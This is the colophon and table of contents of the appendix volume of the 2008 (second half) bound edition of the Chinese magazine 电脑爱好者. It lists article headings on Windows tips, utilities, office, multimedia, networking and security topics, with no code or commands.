# 电脑爱好者2008合订本（下）附录分册

## 《电脑爱好者合订本》2008年(下) · 附录分册
- 主管单位：中国科学院
- 主办单位：北京《电脑爱好者》杂志社
- 编辑出版：《电脑爱好者》杂志编辑部
- 顾问：郭传杰
- 社长：陈梅
- 执行社长/主编：封立鹏
- 副社长：邵先华
- 总编辑：高翔
- 出版部：聂静(主任)
- 副主编：潘留军
- 责任编辑：董宏
- 发行部：刘丽华(总经理) 顾建林(副总经理)
- 客户服务部：姚雯(总监) 李隆(南方客户总监) 米彬(副总监)
- 法律顾问：北京周涛律师事务所 (010-63141013)

- 办公/通信地址：北京市海淀区万寿路翠微中里14号楼4层，北京123信箱（《电脑爱好者》合订本）
- 发行：北京《电脑爱好者》杂志社发行部
- 邮购咨询：(010)68258784，E-mail: yougou@cfan.com.cn
- 网址：http://www.cfan.com.cn
- 经销：各地报刊亭及新华书店

- 开本：787×1092 1/16
- 印张：23
- 字数：50万字
- 刊号：ISSN 1005-0043/CN11-3248/TP
- 国内邮发代号：82-528

本书如有印刷或装订质量问题，我们负责调换。E-mail: publish@cfan.com.cn
图文版权所有，未经同意不得转载、翻印
全套合订本（正文分册、附录分册、配套DVD） 定价：39.8元

## 电脑爱好者 合订本 2008年（下）·附录
## Vista技巧
- 与Windows 7的第一次亲密接触
  - 一、安装过程很简单
  - 二、Windows 7依然需要激活
  - 三、Windows 7的细节之美
    - 1.系统托盘区的秘密
    - 2.主要组件的更新
    - 3.资源管理器
    - 4.Library的妙用
    - 5.控制面板
    - 6.个性化
    - 7.集成WinRE
    - 8.内置ISO镜像刻录
    - 9.UAC改进
    - 10.音频改进
    - 11.字体改进
  - 四、玩转Windows 7的小技巧
    - 1.手工激活超级任务栏
    - 2.用好超级任务栏
    - 3.最小化窗口也可以“摇一摇”
    - 4.定时更换壁纸

- Vista，你的“语言”我永远都懂……
  - 一、认识“区域和语言选项”
    - 1.格式
    - 2.位置
    - 3.键盘和语言
    - 4.管理
  - 二、注册表下的秘密
  - 三、安装语言包也有“行规”
  - 四、安装语言包还有技巧
    - 1.离线安装语言包
    - 2.命令行环境下安装语言包
    - 3.删除语言包的安装临时文件

- 为Windows Vista添加新的可控制策略
  - 第一步：检查注册表编辑器
  - 第二步：书写代码
  - 第三步：保存为模板文件
  - 第四步：添加模板

- 明明白白Windows Vista的预览功能
  - 一、使用预览功能有前提
  - 二、Vista预览文件的秘密
  - 三、为Vista添加更多的预览支持
  - 四、添加预览支持可以更简单

- 重新认识Vista的字体
  - 1.Windows字体的分类
  - 2.指定网页字体
  - 3.让字体更适合液晶显示器
  - 4.让微软雅黑字体进驻Windows XP

- 让Windows Vista自动删除指定目录

- Vista上网新体验——将Google请进开始菜单
  - 一、认识“开始搜索”栏
  - 二、认识Start++
  - 三、使用Start++
    - 1.搜索网页
    - 2.用维基百科搜索词条
    - 3.查看天气情况
    - 4.加快搜索速度

- 别样的精彩——用好Windows Vista的侧边栏
  - 一、无须自开页面 新闻自动上门
  - 二、让最爱图片总在眼前
  - 三、商务人士首选 解决时差计算难题
  - 四、无限扩展功能 实用侧边栏工具放送

- 为了安全和便利 安装完Vista后必做的几件大事
  - 一、启用Administrator
  - 二、应用最新补丁
  - 三、破解并发数限制 为迅雷和网络电影加速
  - 四、关闭无用服务
  - 五、关闭系统保护
  - 六、设置远程控制与XP的兼容性
  - 七、打开打印机服务 顺利安装网络打印机
  - 八、更新硬件最新驱动
  - 九、安装杀软和反黑软件
  - 十、安装Vista优化大师 实现完美优化
  - 十一、取消烦人UAC
  - 十二、安装最新软件
  - 十三、揪出害群之马 管理启动软件
  - 十四、学习Windows Vista新特性

- 让Vista的Windows日历“中国化”

- 明明白白Windows Vista服务
  - 一、进入服务窗口
  - 二、服务的禁用和启用
  - 三、服务也需要优化

## 系统应用
- 术业有专攻：寻找 文件删除 的王者
  - 一、追根溯源：文件为何难以删除
    - 1.常见的“无法删除”症状
    - 2.文件删除与粉碎的区别
    - 3.文件删除的测试方法说明
  - 二、王牌组合拳：寻找文件删除的王者
  - 三、术业有专攻：妙招删除顽固文件与恶意文件
    - 1.IceSword（冰刃）：删除顽固文件的冷血先锋
    - 2.Unlocker V1.8.7：删除顽固文件的王牌先锋
    - 3.明察秋毫：删除隐蔽的恶意文件

- 文件扩展名轻松改

- “七剑下天山”——拒绝自动播放
  - 湛泸剑——关闭服务法
  - 泰阿剑——组策略预防法
  - 干将剑——软件法
  - 承影剑——磁盘操作法
  - 莫邪剑——免疫程序法
  - 轩辕剑——Shift键
  - 鱼肠剑——注册表法

- 值得记忆的奥运年——为电脑换奥运经典时刻界面
  - 一、2008北京奥运LOGO——“奥运”启动界面
  - 二、“同一个世界，同一个梦想”——“奥运”登录主题
  - 三、“点燃激情，传递梦想”——“奥运”主题桌面
  - 四、将奥运进行到底——其他应用软件的奥运主题皮肤

- 自由调整卷影副本的存储空间
  - 一、Vista系统下的“以前的版本”
  - 二、“以前的版本”能干什么？
  - 三、调整卷影副本的存储空间

- 利用官方开发平台 你我也能定制嵌入版Windows XP
  - 一、做好准备工作
  - 二、安装开发平台
  - 三、收集硬件信息
  - 四、手工定制Windows XP

- 万事不求人 解决问题自力更生
  - 一、系统无法启动时
    - 1.使用恢复光盘恢复系统
    - 2.注意BIOS中的设置
    - 3.注意外设通电情况
    - 4.电源问题
    - 5.注意硬盘问题
  - 二、系统变得缓慢时
    - 1.使用最后一次配置
    - 2.新建用户
    - 3.SFC扫描恢复系统文件
    - 4.用光盘修复系统
    - 5.试试系统还原
    - 6.用系统准备工具
  - 三、网络应用无法进行时
    - 1.内置网卡没有打开
    - 2.未打开设备
    - 3.未安装驱动
    - 4.执行好修复功能
    - 5.破解网络连接限制
    - 6.无法开启浏览器
  - 四、解决问题N步曲
    - 1.借助于系统的帮助
    - 2.Microsoft Office 中问题解决
    - 3.一般软件中解决问题
    - 4.在百度知道上解决问题
    - 5.在百度搜索上解决
    - 6.在Google上搜索
    - 7.去天涯版块
    - 8.去百度贴吧
    - 9.专业的论坛
    - 10.DLL问题的解决
    - 11.安装程序常见问题的解决
  - 五、远程协助解决问题
    - 1.用腾讯的QQ来远程协助解决
    - 2.用Windows XP的远程协作来远程协助解决
    - 3.用特定的程序来远程协助 如UltraVNC
    - 4.控制Windows
  - 六、用好软件的自动恢复功能
    - 1.一般软件自动恢复功能
    - 2.Windows Live Messenger
    - 3.Office文档恢复

- 帮鼠标“助无双”——让鼠标别再双击了
  - 一、鼠标为何单击变双击
  - 二、如何修复
    - 第一步：检查并修复由病毒或驱动引起的鼠标单击变双击的故障
    - 第二步：解决系统设置不当引起的鼠标单击变双击
    - 第三步：鼠标单击变双击的修复软件的应用
    - 第四步：鼠标单击变双击故障的硬件修复

- 揪出消耗C盘空间的幕后黑手
  - 一、系统文件
  - 二、图像和办公程序
  - 三、网络程序
  - 四、杀毒程序
  - 五、让C盘的常驻房客换换房间
  - 六、治标更要治本，给C盘增加真的容量

- 有备无患 大容量移动设备备份系统的三法
  - 一、大容量移动硬盘+WinPE
    - 1.下载老毛桃PE
    - 2.确认硬盘分区类型并可引导
    - 3.制作移动硬盘版Windows PE
    - 4.使用硬盘版Windows PE
    - 5.备份/恢复系统
    - 6.保护好Windows PE文件
  - 二、大容量U盘+Flashboot
  - 三、直接使用一键Ghost优盘版

- 自己动手 将瘦身进行到底
  - 一、系统类
  - 二、即时通讯类
  - 三、电子邮件类
  - 四、瘦身音乐/视频
  - 五、瘦身图片

- 管好海量数据 大硬盘使用有技巧
  - 一、选购技巧
    - 1.注意接口
    - 2.选购时要注意品牌
    - 3.速度和单碟容量
    - 4.注意硬盘缓存
  - 二、分区/格式化技巧
    - 1.合理/安全/方便地分区
    - 2.尽量用Windows光盘分引导区
    - 3.尽量用Windows磁盘管理器分区
    - 4.推荐几款不错的分区工具
    - 5.对多块大硬盘快速分区格式化
    - 6.大硬盘识别有妙招
    - 7.格式化大分区为FAT32格式
  - 三、管理篇
    - 1.让大硬盘飞速前进
    - 2.另外安装Windows XP
    - 3.别让文件名拖了NTFS分区后腿
    - 4.注意数据的增量备份

- 将“用户和密码”招聘到“控制面板”

- 节能减排 完成后自动关机吧
  - 一、下载完后自动关机
    - 1.迅雷5
    - 2.迅雷6
    - 3.WEB迅雷
  - 二、刻录完关机
  - 三、压缩完后自动关机
  - 四、播放完后自动关机
    - 1.使用千千静听
    - 2.KMPlayer
    - 3.暴风影音
    - 4.PPLive
    - 5.PPStream
  - 五、录制完成后自动关机
    - 1.Messer录完自动关机
    - 2.网络收音机录完自动关机
  - 六、杀完木马后自动关机
  - 七、杀完病毒后自动关机
    - 1.瑞星
    - 2.卡巴斯基
  - 八、一段时间不操作就自动关机

- 防微杜渐 让系统更加安全的哲学
  - 一、安装系统前要集成SP2/SP3及关键包
  - 二、安装时不要接网线
  - 三、安装一定要设置管理员密码
  - 四、要安装杀软反黑软件 并保持自动更新
  - 五、用上各种软件的安全特性
  - 六、关闭掉多余的服务
  - 七、关闭远程桌面
  - 八、关掉Windows网卡共享

- 高效个性 xxcopy给你文件处理全面方案
  - 一、xxcopy安装与方便调用
  - 二、给文件全面处理方案——拷贝/备份
    - 1.一个文件都不会少.完全克隆你的小硬盘
    - 2.备份你的文件（夹）
    - 3.只备份/处理相应文件
    - 4.让xxcopy也复制隐藏文件
    - 5.只备份/处理指定日期的文件
    - 6.让xxcopy不占用太多资源
    - 7.只备份指定大小的文件
    - 8.定时备份文件
    - 9.让TC自由调用xxcopy 实现增量备份
  - 三、给文件全面处理方案——移动/删除文件
    - 1.移动相应文件
    - 2.只移动指定大小大文件
    - 3.直接删除掉指定大小文件
    - 4.只留下指定时间的指定文件
    - 5.删除目标文件夹中不必要文件
    - 6.清理硬盘上无用文件
    - 7.清空文件夹
    - 8.删除指定时间文件（夹）
    - 9.删除掉所有空文件夹
    - 10.删除掉字数为0的文件
    - 11.快速清空磁盘
    - 12.删除掉所有但只留下指定文件

- 习惯随身带，一盘走天下
  - 一、MojoPac安装
  - 二、MojoPac的初始化设置
  - 三、MojoPac的使用
    - 1.在MojoPac安装和运行软件
    - 2.MojoPac与主机之间的切换
    - 3.退出MojoPac
  - 四、常见问题及解决
    - 1.输入法工具栏消失怎么办
    - 2.怎样防止MojoPac被新的英文版本覆盖

## SOLUTIONS
## 目录
- 修复隐藏的菜单栏和工具栏
  - 方法1：删除配置文件恢复
  - 方法2：利用宏代码恢复

- 组策略组成系统长城
  - 一、进入界面
  - 二、我的墙纸你别碰
  - 三、非法下载，我来挡
  - 四、任务管理器你别动
  - 五、Internet选项，我隐身
  - 六、移动硬盘，我禁播
  - 七、有关文件，我审核

- 启动要排队的——软件启动排顺序
  - 1.语言设置
  - 2.模式选择
  - 3.添加和删除开机自启动程序
  - 4.程序启动排序及延迟设置

- 巧设置，任务栏也能显示星期几

- 决不会丢失自己的设置——用好软件的导入导出
  - 一、系统类
  - 二、办公类
  - 三、输入法类
  - 四、多媒体类
  - 五、网络工具类

- 玩好软件 揪出软件的神秘尾巴
  - 一、Firefox
  - 二、用好IE参数
  - 三、批量安装软件
  - 四、批量应用系统和Office补丁
  - 五、自己制作绿色Total Commander
  - 六、让SnagIt做个幕后英雄
  - 七、让KMPlayer播放完成后直接关机
  - 八、让Total Commander更个性调动程序
  - 九、妙用EmEditor批量查找文件
  - 十、带密码备份
  - 十一、批量解压压缩包文件
  - 十二、自动忽略带密码压缩文件

## 工具软件
- 玩转“批量文件命名器”
  - 一、批量文件重命名
  - 二、文件清单巧生成

- 重复文件别占空间——NoClone Home Edition
  - 一、软件下载及安装
  - 二、重复软件删除操作

- 百变金刚——大容量闪盘使用技巧大观
  - 一、火眼金睛——让闪盘远离病毒
  - 二、大容量闪盘使用入门技巧
  - 三、个人电脑好帮手
  - 四、闪盘秘书——随身携带个人办公环境
  - 五、闪盘功能升级——虚拟光驱及杀毒工具之闪盘版
  - 六、闪盘常见问题解决方案

- 简单整合SP1到Office 2007的安装文件中

- 雷厉风行——小软件让操作更快捷
  - 一、华晶桌面图标精灵为你的桌面“美容”
  - 二、查找文件真的“易上手”
  - 三、点点右键，轻松搞定
    - 1.常用右键菜单设置
    - 2.其他右键功能设置
  - 四、轻轻松松查看日历和时间
    - 1.DTAssist时间助手下载与打开
    - 2.软件功能及操作介绍
  - 五、巧设热键——没有最快捷，只有更快捷
    - 1.设置常用快捷键
    - 2.其他功能介绍
  - 六、游戏外挂——鼠标自动点击器

- 图文截取先锋——SnagIT V8.23教程全解
  - 一、SnagIT的安装
  - 二、SnagIT的设置
    - 1.设置输入方式
    - 2.设置输出方式
    - 3.设置滤镜
    - 4.设置捕获模式
    - 5.设置查看方式
  - 三、SnagIT捕获图像
    - 1.“普通视图”模式
    - 2.“经典视图”模式
  - 四、SnagIT编辑图像
    - 1.添加水印——为图片盖上自己的私章
    - 2.添加箭头——增加图片的说服力
    - 3.添加气球——我也可以做漫画
    - 4.制作Flash
  - 五、其他捕获模式
    - 1.获取文字
    - 2.获取视频
    - 3.获取网络数据

- 用微软工具检测文件的原版性

- 软件安装更快捷
  - 一、效果预览及说明
  - 二、添加菜单选项

- 向常规思维挑战 默认并不是最好
  - 一、常见硬件

- 失而复得：U盘文件的恢复和修复完全接触
  - 一、数据丢失的原因
    - 1.数据删除与恢复的基础知识
    - 2.对号入座：理顺恢复U盘文件的思路
  - 二、巧用软件寻找丢失的文件
    - 1.功能丰富的EasyRecovery 6.12.02
    - 2.快速便捷的FinalData V2.01
    - 3.智能实用的Recover My Files V3.98
    - 4.DIY：用WinHex手工寻找U盘数据
    - 5.百舸争流：功能丰富的U盘恢复软件
  - 三、完美出击：U盘中损坏的文件修复技巧
    - 1.Office文档恢复
    - 2.压缩文件的修复
      - 方法一：使用WinRAR内置的压缩文件修复功能
      - 方法二：使用工具软件进行文件修复
      - 方法三：小技巧解决CRC文件压缩错误
    - 3.PDF文件的修复
    - 4.音视频文件的修复方法

- 新系统咱们是“熟人”
  ——“个人文档转移设置工具”
  - 一、下载与安装个人资料转移设置工具
  - 二、将个人资料“乾坤大挪移”

- 虚拟光驱不是特权——闪存照样玩虚拟
  - 一、Ramdisk简介及软件下载
  - 二、Ramdisk虚拟闪存步骤及应用
  - 三、虚拟内存盘数据保存
  - 四、Ramdisk虚拟盘的其他应用

- 让鼠标工作事半功倍
  - 一、ToggleMouse安装及设置
  - 二、ToggleMouse的基本应用
  - 三、ToggleMouse的高级应用

- “看”遍文档无敌手：提高TC预览文档的能力
  - 一、将TxQuickView请进TC
  - 二、明确TxQuickView的支持类型
  - 三、为TC增加预览“.docx”的功能
  - 四、写在最后的话

- 给Cmd命令行工具穿彩衣

- 利用PikyBasket复制不同位置的文件
  - 一、利用右键菜单复制文件
  - 二、在窗口模式下复制文件
  - 三、玩转PikyBasket的更多功能

- 个性由我 决不按部就班，制作属于自己的WinRAR
  - 第一步：安装WinRAR
  - 第二步：设置WinRAR
    - 1.设置更大压缩率
    - 2.设置固实压缩顺序
    - 3.让WinRAR保留NTFS安全权限
    - 4.设置配置文件
  - 第三步：导出设置

## 目录 SOLUTIONS

- 115 二、Maxthon下载
- 115 三、WinRAR
- 116 四、让迅雷识别更多的文件
- 116 五、让ACDSee图片质量更高 运行得更快
- 116 六、设置Word更适合中国人
- 117 七、让Excel后台保存文件
- 117 八、SnagIt
- 117 九、让Foxmail更中国化
- 313 巧用加密软件修U盘

## 安全防护

- 118 EJBCA：让数字证书也可以DIY
### 一、加密和解密基础知识
- 1. 从美女和帅哥之间的故事谈起
- 2. 轻松搞定EJBCA系统安装
### 二、揭开数字证书的神秘面纱
- 1. EJBCA技术的产品——数字证书
- 2. 幕后面纱：了解数字证书的管理流程
### 三、机密飞鸿：使用数字证书发送邮件和盖章
- 1. 申请并安装个人数字证书
- 2. 利用个人数字证书发送安全电子邮件
- 3. 使用自己的数字证书给公文“盖章”
### 四、尽情冲浪：使用数字证书提高服务器安全
- 1. 提交服务器证书请求文件
- 2. 获得服务器证书和安装服务器证书
- 124 2008网络安全技术实用宝典
### 一、2008网络安全趋势分析
- 1. 举一反三：从一个案例谈起
- 2. 2008网络攻击的多样化趋势
### 二、病毒与木马专题
- 1. 2008常见病毒及木马的特点
- 2. 网络病毒：从防范“僵尸网络”开始
- 3. 典型案例：巧用Wsyscheck清理未知恶意程序
### 三、系统漏洞攻防专题
- 1. 2008常见漏洞分析
- 2. 漏洞检测及防范实用技术
- 3. 典型案例：溢出漏洞及其防范方法
### 四、网页及搜索安全技术专题
- 1. 来势汹汹的跨站攻击技术
- 2. 预防网页浏览中的“陷阱”
- 3. 典型案例：寻找PHPwind论坛的漏洞
### 五、加密与解密实用专题
- 1. 密码猜解：分析支付宝ID的出售之谜
- 2. 窃听技术和账户密码安全
- 3. 典型案例：PKI技术与网络安全应用
- 135 为账号请个保镖——360保险箱为账户保驾护航
### 一、将电脑装进保险箱——软件的安装
### 二、给保险箱上“密码”——软件的设置与管理
- 1. 保护功能
- 2. 设置
- 136 实用为上 USB的安全实用技巧
### 一、BIOS取消法
### 二、禁止设备法
### 三、禁止USB设备
### 四、Windows Vista中如何禁止
- 137 为孩子的电脑请个“管家”
### 一、把管家请进电脑——软件的安装
### 二、对管家的“交代”——软件的设置与管理
- 1. 让孩子远离不良信息——黄色过滤
- 2. 玩游戏要有选择——游戏限制
- 3. 聊天软件要挑选——聊天限制
- 4. 下载方式要控制——BT限制
- 5. 时间限制
- 6. 自定义
- 7. 健康设置
- 8. 记录
- 9. 密码设置
- 10. 安全设置
- 138 巧妙隐藏你的机密文件
- 138 离线安装卡巴斯基的病毒库更新
- 138 讲究一：选准下载源
- 138 讲究二：添加更新源有次序
- 139 谨防看不见的黑手——安全使用网络银行
### 一、杜绝恶意程序：必不可少的防火墙
- 140 二、最容易忽视的环节：反钓鱼
- 140 三、配合银行的保密功能
- 141 让杀毒从此更简单

## 办公应用

- 117 利用ASK域 自动转换大写金额
- 142 妙法统计有背景颜色的单元格数量
- 1. 利用VBA代码
- 2. 利用“查找和替换”
- 143 从欣赏到制作：名片DIY实用指南
### 一、我行我素：个性化名片实用技巧
- 1. 简单型DIY：用Word也可以设计名片
- 2. 实用型DIY：巧用名片网站“按部就班”
- 3. 个性化DIY：巧用“方寸天地”设计名片
### 二、商战利器：循序渐进打造“面子”工程
- 1. 商务助手：用BusinessCards MX轻松“制造”名片
- 2. 如虎添翼：巧借Photoshop打造精美名片
- 3. 绘图专家：巧借CorelDraw设计名片
- 4. 锦上添花：名片的后期加工与制作技术
- 148 PDF转DOC，百度硬盘来兼职
- 149 新享受：体验英语学习中鲜为人知的技巧
### 一、听：用英语学习软件提高听力水平
- 1. 主打软件：用“大口啃英语”练听力
- 2. 助听高手：能飞英语视听学习机
### 二、说：寻找口语快速提高的捷径
- 1. 练口语，从“英语音标大师”开始
- 2. 提高训练，让“口语与单词V2008”来帮忙
### 三、读：让背单词成为一种享受
- 1. 单词风暴2008：让背单词更加人性化
- 2. 疯狂单词V3.08：轻松进入记忆状态
- 3. 多管齐下，快速提高口语水平
### 四、写译：借助软件全面提高英语水平
- 1. 全程提高：借助考试学习软件把握知识点
- 2. 功能全面的“Dr.eye译典通”
- 3. 借助网络词典全面提高英语能力
- 155 对无序段落进行智能重排
- 方法一：利用替换进行智能分段
- 方法二：利用VBA宏代码进行智能分段
- 156 为Word文档中的金额数值设置千分位
### 一、利用公式和域设置千分位
### 二、利用查找和替换的方法设置千分位
### 三、利用宏代码进行设置
- 157 文字排版“自动化”——Gidot TypeSetter 3.03使用教程
### 一、下载与打开Gidot TypeSetter 3.03
### 二、Gidot TypeSetter 3.03的操作与使用
- 159 再续前缘：Word 2007还可以这样替换
- 实例一：批量替换文档中的数字句号
- 实例二：自动替换文档中的英文格式
- 实例三：删除无用的段落标志
- 实例四：删除文档中的重复段落
- 实例五：剔除试卷中的多余括号
- 实例六：快速替换上、下标格式
- 实例七：替换代码为汉字
- 实例八：删除文档中固定大小的图片
- 实例九：批量更改图片位置
- 实例十：批量添加千位分隔符
- 实例十一：替换文档中的“。”
- 实例十二：拆分英文和中文
- 实例十三：去除文档中的多余空格
- 实例十四：去除文档中的西文字符
- 实例十五：去除页面中的空白部分
- 实例十六：去除文档中的多余对象
- 1. 删除右上角的LOGO图片
- 2. 删除非嵌入式的对象
- 3. 删除嵌入式对象
## 目录 SOLUTIONS
- 165 4.删除水印
- 165 为你的Word 2007增加ODF格式的支持
### 一、做好安装前的准备工作
### 二、安装转换器加载项
- 166 利用宏代码高效处理Word文档中的图片
- 技巧一：批量更改图片版式
- 技巧二：批量提取图片
- 167 让Excel 2007实现红绿灯的自动提示
- 168 利用替换功能实现备选项的完美对齐
- 169 利用Word 2007完成数据统计
### 一、利用数据库进行简单查询
### 二、利用公式进行统计
- 170 让沟通更轻松：免费词典翻译软件大比拼
### 一、界面操作及资源占用对比
### 二、词典查询及取词能力对比
- 1. “选择多”：词典库功能
- 2. “找得到”：索引查询能力
- 3. “找得准”：取词精度与智能识别
- 4. “找得快”：鼠标取词功能
### 三、翻译能力及辅助功能对比
- 1. 重点句及全文翻译能力
- 2. 多语种翻译
- 3. 联机翻译和离线翻译
- 4. 辅助功能
### 四、综合小结
- 178 Word 2003也用稿纸格式
- 步骤1：选择稿纸格式
- 步骤2：网格设置
- 179 乘法小测验，PPT来搞定
### 一、界面的设计
### 二、相关代码的添加
### 三、效果预览
- 181 圆周运动PPT轻松演示
- 182 工资条轻松做
### 一、设计工资条主界面
### 二、设计工资表
### 三、代码添加
- 184 用WPS制作试卷指南
### 一、页面设置及分栏
### 二、页号的处理
### 三、语文试卷技巧（拼音、稿纸方式）
- 效果一：看拼音写汉字
- 效果二：修正拼音错误
### 四、数学试卷技巧（插入公式）
### 五、试卷答案的隐藏与显示
### 六、电子试卷的制作
- 1. 安装VBA环境
- 2. 选择题的制作
- 3. 填空题的制作
- 187 英文字母也玩自动填充
- 方法1：函数法
- 方法2：自定义序列法
- 188 巧用EmEditor宏，操作更轻松
### 一、利用EmEditor宏快速输入个人信息
### 二、利用EmEditor宏快速新建文本文件
### 三、利用EmEditor宏快速打开文本文件
### 四、利用EmEditor宏快速压缩文件
- 189 将Word文档中的手工编号替换为自动编号
- 233 规范日期数据文本格式的技巧
- 323 转换文件，在线搞定
- 339 小数输入更快捷

## 多媒体

- 190 图片也能做密码——PixelCryptor 1.1
### 一、加密文件操作
### 二、文件解密操作
- 191 照片管理，我用Picasa
- 技巧一、照片的搜索及分类
- 技巧二、给照片添加星标
- 技巧三、数码照片批量调整大小
- 技巧四、精彩照片SHOW出来
- 193 “三招两式”，Flash文档想瘦就瘦
- 技巧1：图片的瘦身
- 技巧2：MP3文件的瘦身
- 技巧3：删除无用的元件
- 194 好相片，我形我速SHOW出来
### 一、初识“我形我速”
### 二、相片的基本操作
### 三、综合应用
- 197 四格漫画轻松做
### 一、初识风漫
### 二、四格漫画构思及漫画页面的创作
### 三、其它漫画页面的创作
### 四、四格漫画的发布
- 199 玩转视频：探索视频编辑背后的奥秘
- 预备篇：视频编辑与制作基础技术
- 1. 对号入座：了解常见的视频格式
- 2. 全能播放：让格式转换畅通无阻
- 3. 逐级优化：打造高质量视频素材
- 进阶篇：个人视频制作实用技术
- 1. WMM：一站式服务让视频制作更简单
- 2. 屏幕录像视频制作技巧
- 3. 轻松制作个性化视频光盘
- 提高篇：专业视频创作实用技巧
- 1. 准备工作：剧本创作和素材整理
- 2. 深度加工：字幕、视频和音频的制作技术
- 3. 大功告成：保存、输出及发布
- 206 Flash版超酷相册轻松做
### 一、图片处理
### 二、加载图片
### 三、效果预览
- 208 听觉盛宴：探索“天籁之音”的奥秘
- 想下就下：音乐下载实用技术
- 1. 双“狗”争霸：寻找音乐下载的王者
- 2. 信手拈来：快速下载知名网站中的音乐
- 3. 提取动画或视频中的背景音乐
- 想听就听：寻找音乐欣赏的新感觉
- 1. 把Flash动画放到电视里欣赏
- 2. 新品味：寻找“立体声”的感觉
- 3. 一步到位：DIY歌曲轻松上手
- 想做就做：音乐铃声轻松制作
- 1. 使用“酷狗音乐2008”制作手机铃声
- 2. 三步搞定MP3铃声剪辑
- 3. 轻松打造“真人原唱”效果
- 4. 不用工具，个性铃声网上做
- 音乐修复：尽情提升音乐品质
- 1. 快速修复MP3，让音乐聆听更欢畅
- 2. 巧用“千千静听”提升MP3音质
- 214 批量转换图片只需“右键”
### 一、转图单项冠军——XnView shell Extension
- 1. 软件下载与安装
- 2. 转图操作
- 3. 其他应用
### 二、看图转图双冠王——PicaView
- 1. 软件下载与安装
- 2. 转图操作
- 3. 其他应用
### 三、全能选手——ACDSee 3.1 SR1
- 1. 软件下载与安装
- 216 你的“音频指挥棒”——用SRS Audio Sandbox让普通音箱变家庭影院
### 一、将指挥棒装进电脑——软件的安装
### 二、让“指挥棒”发挥作用——软件的设置与应用
- 217 大饱眼福：高清视频播放软件全接触
### 一、软件界面与操作易用性
### 二、资源占用与播放流畅度
### 三、优化播放与高清解码能力
### 四、视频格式支持
### 五、字幕加载、媒体信息与特色功能
### 六、综合分析
- 224 为你的播放器“加价”——玩转音频格式转换
### 一、音频格式转换
### 二、音频截取与分割
- 225 提前享受蓝光——高清视频保存攻略
### 一、愚公移山：获取高清视频
- 1. 高清电影网上下载
- 2. 内网BT下载速度太慢怎么办?
- 3. 什么样的硬盘适合高清时代?
### 二、视频分割：用DVD存储高清视频
- 1. 用于PC播放的分割存储方式
- 2. 用于DVD播放机的存储方式
- 228 主流MP4播放器MTV制作大全
- 主流产品之一：基于Intel Xscale 与TI芯片的MP4
- Step1：下载并安装Windows Media Encoder9和Realplayer V10
- Step2：选择欲转换文件与参数
- Step3：设置输出路径并开始编码
- 主流产品之二：基于MP3解码芯片的产品
- Step1：安装DMV转换软件
- Step2：转换DMV视频格式
- Step3：执行转换操作
- 视频转换解决方案：RMVB与MPEG4两者选一
- 1. xVID/DivX编码压缩
- 2. RM/RMVB编码压缩
- 230 数字时代的暗房：RAW文件处理技巧
### 一、RAW文件概述
- 1. RAW格式简介
- 2. RAW格式的优点
### 二、常见RAW处理软件
- 1. Capture One Pro
- 2. Adobe Digital Camera Raw
- 3. Silkypix Developer studio
### 三、RAW文件处理实例
- 1. 曝光量控制
- 2. 白平衡控制
- 3. 锐度对比度调节
- 4. 其他效果调整
### 四、玩转数码相机的RAW格式设置
- 1. 选择合理的格式设置
- 2. 让低端相机也支持RAW
- 234 DC用户的福音 数码照片批量转换一劳永逸
- 1. XnView法
- 2. rfanView法
- 3. 光影魔术手
- 4. 用FastStone Viewer
- 236 拍照全能战士——日、云、雾、雨、雪拍摄要诀谈
### 一、晨曦暮照——日
### 二、云深不知处——云
### 三、仙气氤氲——雾
### 四、大珠小珠落玉盘——雨
### 五、纯色无边——雪

## 网络加油站

- 238 想搜就搜：寻找鲜为人知的搜索技巧
- 网页搜索专题
- 1. 让搜索引擎成为生活助手
- 2. 寻找鲜为人知的搜索符号
- 3. 打造安全搜索的新境界
- 图片及地图搜索专题
- 1. 利用搜索引擎搜索图片
- 2. 使用专业工具搜索地图
- 影音搜索专题
- 1. 音乐搜索实用技巧
- 2. 视频搜索实用技巧
- 专业文档搜索专题
- 1. 专业期刊文件资源搜索
- 2. 词典搜索
- 3. 书籍类和知识类专业搜索
- 4. 巧用工具实现本地文件搜索
- 5. 商业信息搜索
- 246 变通一下 找出专属下载地址的“源泉”
### 一、软件下载与安装
### 二、地址转换操作
- 1. 专用地址解密操作
- 2. 普通地址加密操作
- 247 一个好汉 三个帮
### 一、增强浏览插件：用我上网更方便——Firefox特色插件大检阅
### 二、标签增强插件：让Tab更智能
### 三、扩展下载插件：Down尽网络资源
### 四、屏蔽广告插件：“视”界一片清爽
### 五、鼠标手势插件：挥挥手也能冲浪
### 六、翻译类插件：再多外文也不怕
### 七、浏览图片插件：好“摄”之徒有福音
- 250 户外炒股 赚钱分分秒秒
- 手机上网炒股的三大方式
- 1. WAP方式
- 2. CDMA方式
- 3. WiFi方式
- 用什么软件来炒股
- 1. JAVA平台的首选：同花顺
- 2. Windows Mobile平台：华证掌上通
- 252 轻松玩转家庭局域网的互访
### 一、硬件准备
### 二、系统设置
- 第一步：设置静态IP和DNS
- 第二步：处于同一“工作组”
- 第三步：启用Guest账户、设置访问密码
- 第四步：修改组策略设置
- 第五步：设置NTFS访问权限
- 第六步：设置共享资源及防火墙
- 254 MSN机器人让线上生活更精彩
### 一、MSN机器人之基本介绍
### 二、MSN机器人之你的选择
- 256 “QQ好友密探”让你弄清是谁删了你
- 257 网络时代学习理财好轻松
### 一、学习使用网上银行，足不出户也理财
### 二、学习网上炒股，在家也可当大户
- 258 三、鼠标收尽天下财 看互联网新闻
- 258 四、通过RSS订阅 财经资讯送上门
- 259 五、网络视频轻松看
- 259 让网页内嵌广告“消失”
### 一、插件下载及安装
### 二、插件使用操作
- 260 不只是IE的专利 用好你的第二收藏夹
### 一、Maxthon 2.x的在线收藏夹
### 二、Maxthon 1.x的快捷组
### 三、GreenBrowser的群组
### 四、Winamp的收藏夹
### 五、ACDSee的收藏夹
### 六、KMPlayer收藏夹
### 七、RealPlayer的收藏夹
### 八、QQ收藏夹
### 九、Windows Live收藏夹
### 十、Firefox收藏夹
### 十一、WinRAR收藏夹
### 十二、Total Commander
### 十三、CuteFTP
### 十四、迅雷的收藏夹
- 263 保驾护航 全面掌握网络安全哲学
### 一、即时通信的安全
### 二、下载的安全
### 三、浏览的安全
### 四、交易的安全
### 五、电子邮件的安全
- 266 巧思妙用 IE7 Internet选项有妙用
- 1. 一次设置多个首页
- 2. 设置默认网络程序
- 3. 斩除插件 管理加载项
- 4. 删除掉自动保存密码 保障系统安全
- 5. 设置RSS更新频率和声音通知
- 6. 真正启用IE7的保护模式
- 7. 给危险网站上紧箍 让上网多一份安全
